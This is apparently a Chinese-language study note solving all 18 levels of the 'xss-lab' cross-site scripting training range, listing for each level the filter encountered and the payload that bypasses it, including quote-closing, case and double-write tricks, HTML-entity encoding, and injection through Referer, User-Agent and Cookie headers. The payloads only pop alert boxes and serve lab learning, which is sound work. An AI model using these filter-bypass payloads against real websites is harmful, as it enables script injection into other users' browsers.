 ```yaml
---
title: xss-lab通关小记
id: xss-lab通关小记
---
```


<!-- more -->





实际构造闭合，另外要对js有一定了解

常用测试语句：

```javascript
<script>alert(1)</script>
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<a href=javascript:alert(1)>
```

## Level1

url为：http://xssaq.com/yx/level1.php?name=test
GET型，源码显示
在传参处插入代码即可：?name=`<script>alert(1)</script>`

## Level2

Url为:http://xssaq.com/yx/level2.php?keyword=test
GET型,输入`<script>alert(/hack11/)</script>`：
![](https://i.loli.net/2021/02/13/DBNOTv9yuzCqMQm.png)

构造闭合，即`"><script>alert(/hack11/)</script>//`
"和>将其之前的语句闭合为value=<"">,//或者<"将后方">注释
![](https://i.loli.net/2021/02/13/GHM4a78wmlZrt1f.png)





## Level3

Value同2，value="">
`<script>alert(/hack11/)</script>`,查看响应，后端将<>过滤了
![](https://i.loli.net/2021/02/13/IBsk2vCh5fR4oFD.png)

查看源码，使用了htmlspecialchars函数
![](https://i.loli.net/2021/02/13/n5wQOlJ4BMG6Xms.png)
![](https://i.loli.net/2021/02/13/FSEZ6xjpqacyXD1.png)


可以使用不带有尖括号的特殊字符进行尝试
如：`' onclick='alert(1)`
（利用了HTML DOM 的onclick事件，点击后触发包含的命令）	

- 第一个单引号的作用：闭合`value='`
- 第二个单引号的作用：与valuer=''的第二个引号对应，构成`onclick='alert(1)'`
  ![](https://i.loli.net/2021/02/13/ifQhPs5CEXYJcbD.png)





## Level4

输入：`"><script>alert(/hack11/)</script>//`		，`<>`被过滤
![](https://i.loli.net/2021/02/13/5XnuHTlBzUYPGSi.png)

类似level3，不同的是单引号换为双引号构造闭合：
`" onclick="alert(1)`
![](https://i.loli.net/2021/02/13/hVZxg39tKsEAfpG.png)


## Level5

- 尝试 `"><script>alert(/hack11/)</script><"`，发现script被过滤
  ![](https://i.loli.net/2021/02/13/fwqic3VlrZvYRz2.png)

- 尝试`" onclick="alert(1)`，发现on被过滤
  ![](https://i.loli.net/2021/02/13/lLNBKGCsAtcQom8.png)

- 最终poc：`"><a href=javascript:alert(1)><"` 
  ![](https://i.loli.net/2021/02/13/2QKFvDzJmacTxYS.png)
  点击即可触发	
  ![](https://i.loli.net/2021/02/13/YLMlUZ6IVq3mwtj.png)

## Level6

- 构造 `<script>alert(1)</script>`	，`script`被过滤
  ![](https://i.loli.net/2021/02/13/mkcMn8bqDWVdLpg.png)

- 构造 `<img src=x onerror=alert(1)>`  ,`src`,`on`被过滤
  ![](https://i.loli.net/2021/02/13/h4gtFHRDqI5KBpf.png)

- 构造 `<a href=javascript:alert(1)>`	 ，`href`被过滤
  ![](https://i.loli.net/2021/02/13/yCrAILKH3dzEfgl.png)


- 最终poc1：
  `"><a Href=javascript:alert(1)><"` 进行大小写绕过
  ![](https://i.loli.net/2021/02/13/PDRVBjso12MxYXH.png)
  ![](https://i.loli.net/2021/02/13/ZJ73fWwcuYhzxFe.png)


- 最终poc2：
  `" ONclick="alert(1)`，其他亦同
  ![](https://i.loli.net/2021/02/13/ejVWHLoqZrpixaf.png)


- 源码：过滤部分关键字，没有对大小写进行针对
  ![](https://i.loli.net/2021/02/13/Lo31XaGHvIMRitw.png)


## Level7

- 老四样测试，script、src、on、href皆被置换为空

```javascript
<script>alert(1)</script> 
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<a href=javascript:alert(1)>
```

![](https://i.loli.net/2021/02/13/8CW54NmTldBEvLa.png)
![](https://i.loli.net/2021/02/13/zZEaPMpcVQT5LCt.png)
![](https://i.loli.net/2021/02/13/RfE3meS25jqy4oz.png)
![](https://i.loli.net/2021/02/13/qMYmV7ZT8KC1t2J.png)

- 尝试大小写绕过，会将输入全部转换为小写，在匹配关键词置换为空
- poc(双写绕过)：
  `"><a hrhrefef=javascriscriptpt:alert(1)><"`
  ![](https://i.loli.net/2021/02/13/wq1KlSz2TGdJ6DR.png)
  ![](https://i.loli.net/2021/02/13/4rtTgZfAanjWYc7.png)


- 源码：过滤部分关键字：strtolower把所有字符转换为小写再进行过滤

![](https://i.loli.net/2021/02/13/tMjuFApHsYIP7xc.png)


## Level8

- '添加友情链接'，应为DOM型xss
  `<a href=javascript:alert(1)>`：
  href，javascript都被过滤，大小写和双写绕过都失效
  ![](https://i.loli.net/2021/02/13/okHQ72fMaguFmEr.png)

- 尝试编码绕过
  `javascript:alert(1)`
  ![](https://i.loli.net/2021/02/13/4NfeLIc6BguKdrZ.png)

- Burpsuite编码

```javascript
&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;	
```

![](https://i.loli.net/2021/02/13/jyH9wteMQIm2xhD.png)

## Level9

- DOM型，基于Level8多了一个判定，查看源码，需在构造语句后加上`http://`
  即：

```javascript
&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;//http://
```

- 源码：
  同8，先将关键字替换，再判断变量后是否有`http://`
  Strpos($str,’http://’)：查找http://在字符串中第一次出现的位置
  ![](https://i.loli.net/2021/02/13/WqVb1EzPLfopyCx.png)


## Level10

- `<script>alert(1)</script>`		过滤了`<>`，尝试编码不能绕过，无法构造事件触发xss、无法利用属性的javascript协议、无法利用css注入
  ![](https://i.loli.net/2021/02/13/rkp8zyZWtIailOT.png)

- 存在三个input变量，尝试提交
  源码：`<input name="t_sort"  value=" '.$str33.' " type="hidden">`
  Payload：`1&t_sort=  " type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/oKn6UHsgJPMIrqj.png)
  `1&t_sort=xxx` 将xxx作为t_sort的value输入
  `" type="text" onclick="alert(1) `是置入value	的语句
  `type="text"` 形成可点击的文本框，方便触发其后的onclick="alert(1)

## Level11

- 查看源码
  仅t_sort和t_ref的可传参，
  `$str11=$_SERVER['HTTP_REFERER'];//`将payload从http头的referer栏获取
  ![](https://i.loli.net/2021/02/13/2CutM5RFrlQoBhX.png)

- 一．
  浏览器插件修改referfer，`value=1&t_sort=  " type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/JVetGAoDWhNuriS.png)

- 二．
  利用burpsuite在跳转至该网页时抓包，修改其中`referer`为`poc`即可
  `1&t_sort=  " type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/brkZhBiJusDGMmT.png)

## Level12

- 输入：`" type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/FOBly6kYp5hQAxZ.png)
  ![](https://i.loli.net/2021/02/13/8EiaVFOuep1N5nZ.png)


- 从标头中的User-Agent中获取
  User-Agent：`" type="text" onclick="alert(1)`
  ![](https://i.loli.net/2021/02/13/W5JizDwSFlqy62Y.png)


## Level13

如图
![](https://i.loli.net/2021/02/13/EZn9j6qgMdRUGXS.png)

- 查看标头
  ![](https://i.loli.net/2021/02/13/WDyMe6XP7w9vTs8.png)



- 修改cookie
  Cookie：`user="type="text" onclick="alert(1)"`

![](https://i.loli.net/2021/02/13/dsWx4JaFARcfgEp.png)


## Level14

百度一下：本关因iframe调用的文件地址失效，无法进行测试。要考的应该是通过修改	iframe调用的文件来实现xss注入

## Level15

- ng-include指令一般用于包含外部的 HTML 文件，ng-include属性的值可以是一个表达	式，返回一个文件名，但是默认情况下，包含的文件需要包含在同一个域名下。
  ![](https://i.loli.net/2021/02/13/fTDSb42LBXuZdjy.png)

- 可以包含一个有漏洞的页面进行破解
  eg:	`level15.php?src='name=<script>alert(1)</script>'`

## Level16

- `<script>alert(1)</script>`
  ![](https://i.loli.net/2021/02/13/NBiRrWhDmXpkYeZ.png)

- 空格、反斜杠、script都被str_replace函数替换成&nbsp
  ![](https://i.loli.net/2021/02/13/vw2HtkGNqFW1ylD.png)

- HTML中可以将%0a或者%0D当成空格使用，故可构造
  Poc：`<svg%0aonload=alert(1)>`
  ![](https://i.loli.net/2021/02/13/WOAj6vXTerNdChY.png)


## Level17

- Url中：level17.php?arg01=123&arg02=321
  将arg01和arg02的结果用=拼接
  ![](https://i.loli.net/2021/02/13/H7Wjb1OS5twXYq2.png)

- 可利用此构造：`onclick=javascript:alert(/xss/)`
  Poc：`level17.php?arg01= onmousemove&arg02=javascript:alert(/xss/)`
  ![](https://i.loli.net/2021/02/13/CmdPrh5uHVcEkyG.png)

## Level18

同17
![](https://i.loli.net/2021/02/13/DUo8dhKymzrpJEQ.png)



